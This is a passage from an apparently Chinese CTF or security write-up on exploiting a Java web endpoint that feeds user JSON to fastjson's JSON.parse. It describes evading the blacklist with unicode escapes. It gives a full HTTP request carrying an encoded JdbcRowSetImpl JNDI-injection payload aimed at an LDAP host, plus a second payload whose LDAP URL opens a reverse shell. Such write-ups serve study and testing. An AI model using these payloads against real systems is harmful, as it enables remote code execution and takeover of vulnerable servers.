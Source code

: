 可以发现传入 data 这个 json 字符串然后进行鉴权并且给到`JSON.parse`​解析，其实可以想到绕过黑名单+fastjson 打 C3p0 不出网这个思路，也可以直接打 jndi 注入吧，跟进`SecurityCheck`​

[![](assets/1709282823-d8a240a9ba1d362b958ff7d61eaab13a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162655-4c586f2a-d6dc-1.png)

可以想到用 16 进制或者 unicode 来进行绕过黑名单，所以有以下打法

### JNDI 注入 (出网+jdk 低版本)

本地用的是 jdk8u65

```plain
POST /admin/user%0d HTTP/1.1
Host: localhost:8080
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 0
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
sec-ch-ua: "Not A(Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"

data={{urlenc(eyJAdHlwZSI6Ilx1MDA2M1x1MDA2Zlx1MDA2ZFx1MDAyZVx1MDA3M1x1MDA3NVx1MDA2ZVx1MDAyZVx1MDA3Mlx1MDA2Zlx1MDA3N1x1MDA3M1x1MDA2NVx1MDA3NFx1MDAyZVx1MDA0YVx1MDA2NFx1MDA2Mlx1MDA2M1x1MDA1Mlx1MDA2Zlx1MDA3N1x1MDA1M1x1MDA2NVx1MDA3NFx1MDA0OVx1MDA2ZFx1MDA3MFx1MDA2YyIsImRhdGFTb3VyY2VOYW1lIjoibGRhcDovLzEwNy4xNzQuMjI4Ljc5OjEzODkvQmFzaWMvQ29tbWFuZC9jYWxjIiwiYXV0b0NvbW1pdCI6dHJ1ZX0=)}}
```

直接反弹 shell 即可

```plain
{"@type":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","dataSourceName":"ldap://xxx:1389/Basic/ReverseShell/xxx/7979","autoCommit":true}
```
